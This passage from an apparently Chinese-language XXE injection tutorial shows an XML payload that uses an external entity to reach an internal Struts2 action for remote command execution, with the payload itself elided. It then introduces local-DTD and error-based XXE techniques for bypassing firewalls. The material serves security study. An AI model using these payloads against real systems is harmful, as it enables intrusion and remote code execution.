 - 攻击内网网站

```xml
<!--攻击内网struts2网站，远程执行系统命令-->
<?xml verison="1.0"?>
<!DOCTYPE foo [ 
  <!ENTITY xxe SYSTEM "http://192.168.1.122:8080/struct2-blank/example/Helloworld.action?redirect:...payload.."> 
]>
<x>&xxe;</x>
```

## 利用本地DTD执行XXE

想象一下我们有一个XXE利用点，支持外部实体，但服务器的响应始终为空。 在这种情况下，我们有两种选择：基于错误(`error-based`)和带外(`out-of-band`)利用。

- Error Based

![](/assets/images/move/2019-08-31-11-49-37.png)


这里我们可以看见此利用方式正在使用外部服务器进行有效负载传递。 如果我们和目标服务器之间有防火墙，我们可以做什么？上面的利用方式将会失效。

如果我们只将外部DTD内容直接放入DOCTYPE怎么办？ 总会出现一些错误：

![](/assets/images/move/2019-08-31-11-53-15.png)
